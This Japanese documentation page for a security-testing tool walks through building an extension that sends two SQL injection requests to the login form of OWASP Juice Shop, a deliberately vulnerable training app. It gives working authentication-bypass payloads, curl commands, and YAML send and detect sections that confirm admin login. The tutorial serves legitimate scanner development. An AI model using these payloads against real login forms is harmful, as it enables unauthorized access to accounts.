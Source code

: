 [link-meta-info]:           ../create-extension.md#structure-of-the-meta-info-section
[link-send-headers]:        ../phase-send.md
[link-using-extension]:     ../using-extension.md
[link-app-examination]:     app-examination.md

[doc-send-phase]:           ../phase-send.md
[doc-detect-phase]:         ../detect/phase-detect.md

[link-juice-shop]:          https://www.owasp.org/index.php/OWASP_Juice_Shop_Project



#   変更を行わない拡張の作成

本ドキュメントで説明する拡張は、受信ベースラインリクエストを変更してペイロードを挿入することはしません。代わりに、ベースラインリクエストで指定されたホストに対して、あらかじめ定義された2つのテストリクエストを送信します。これらのテストリクエストには、対象アプリケーション[「OWASP Juice Shop」][link-juice-shop]のログインフォームに存在するSQLiの脆弱性を悪用し得るペイロードが含まれています。


##  準備

FAST拡張を作成する前に、[対象アプリケーションの挙動を調査する][link-app-examination]ことを強く推奨します。


##  拡張の作成

拡張を記述するファイル（例: `non-mod-extension.yaml`）を作成し、必要なセクションを記述します。

1.  [**`meta-info`セクション**][link-meta-info]。

    拡張が検出しようとする脆弱性の説明を用意します。
    
    * 脆弱性ヘッダー：`OWASP Juice Shop SQLi (non-mod extension)`
    * 脆弱性の説明：`Demo of SQLi in OWASP Juice Shop (Admin Login)`
    * 脆弱性タイプ：SQLインジェクション
    * 脅威レベル：高
    
    該当する`meta-info`セクションは次のようになります。
    
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (non-mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'
    ```
    
2.  **`send`セクション、[Sendフェーズ][doc-send-phase]**

    対象アプリケーションのSQLインジェクション脆弱性を悪用するには、`email`パラメータの値として次の2つのペイロードを、任意の`password`値とともに送信します。
    
    * `'or 1=1 --`
    * `admin@juice-sh.op'--`
    
    それぞれ次を含むテストリクエストを2つ作成できます。
    
    * 上記のいずれかの値を持つ`email`パラメータ
    * 任意の値を持つ`password`パラメータ

    このサンプルの対象アプリケーション（OWASP Juice Shop）をテストするには、これらのリクエストのうち1つだけを使用すれば十分です。
    
    ただし、実アプリケーションのセキュリティテストでは、複数の準備済みテストリクエストを用意しておくと有用です。あるリクエストがアプリケーションの更新や改善により脆弱性を悪用できなくなっても、他のペイロードを用いる別のリクエストが引き続き脆弱性を悪用できる可能性があるためです。

    上記の最初のペイロードを用いたリクエストは次のようになります。
    
    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"'\''or 1=1 --", "password":"12345"}'
    ```

    2つ目のリクエストも同様です。

    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"admin@juice-sh.op'\''--", "password":"12345"}'
    ```

    これら2つのテストリクエストの記述を含む`send`セクションを追加します。
    
    ```
    send:
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"''or 1=1 --","password":"12345"}'
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"admin@juice-sh.op''--","password":"12345"}'
    ``` 
    
    !!! info "`Host`ヘッダーに関する注意" 
        このSQLi脆弱性の悪用には影響しないため、これらのリクエストでは`Host`ヘッダーを省略できます。FASTノードは、受信ベースラインリクエストから抽出した`Host`ヘッダーを自動的に追加します。
        
        [こちら][link-send-headers]で、Sendフェーズがリクエストヘッダーをどのように扱うかをご確認ください。

     3.  **`detect`セクション、[Detectフェーズ][doc-detect-phase]**。
    
    次の条件を満たす場合、管理者権限でのユーザー認証が成功したことを示します。
    
    * レスポンスボディに、値が`1`のショッピングカート識別子パラメータが存在すること。パラメータはJSON形式で、次のようになります。
    
        ```
        "bid":1
        ```
    
    * レスポンスボディに、値が`admin@juice-sh.op`のユーザーメールアドレスパラメータが存在すること。パラメータはJSON形式で、次のようになります。
    
        ```
         "umail":"admin@juice-sh.op"
        ```
    
    上記の条件に基づいて攻撃の成否を確認する`detect`セクションを追加します。
    
    ```
    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```
    
!!! info "特殊記号のエスケープ"
    文字列中の特殊記号をエスケープすることを忘れないでください。

##  拡張ファイル

これで`non-mod-extension.yaml`ファイルには、拡張が動作するために必要なセクション一式が揃いました。ファイルの内容は次のとおりです。

??? info "non-mod-extension.yaml"
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (non-mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'

    send:
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"''or 1=1 --","password":"12345"}'
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"admin@juice-sh.op''--","password":"12345"}'

    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```

##  拡張の使用

作成した拡張の使い方の詳細については、[このドキュメント][link-using-extension]をご覧ください。